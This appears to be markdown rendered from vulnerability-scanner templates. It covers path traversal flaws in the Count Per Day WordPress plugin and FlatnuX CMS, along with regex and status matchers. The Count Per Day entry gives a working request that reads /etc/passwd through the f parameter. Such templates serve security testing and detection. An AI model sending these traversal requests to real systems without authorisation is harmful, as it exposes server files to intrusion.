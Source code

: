 **Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Count Per Day \<= 3.1 - download.php f Parameter Traversal Arbitrary File Access

## Description

- An absolute path traversal vulnerability in download.php in the Count Per Day module before 3.1.1 for WordPress allows remote attackers to read arbitrary files via the f parameter.
- severity - high
- tags - packetstorm,cve,cve2012,lfi,wordpress,wp-plugin,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/count-per-day/download.php?n=1&f=/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# FlatnuX CMS - Directory Traversal

## Description

- A path traversal vulnerability in controlcenter.php in FlatnuX CMS 2011 08.09.2 allows remote administrators to read arbitrary files via a full pathname in the dir parameter in a contents/Files action.
- severity - high
- tags - cve2012,lfi,traversal,edb,packetstorm,cve
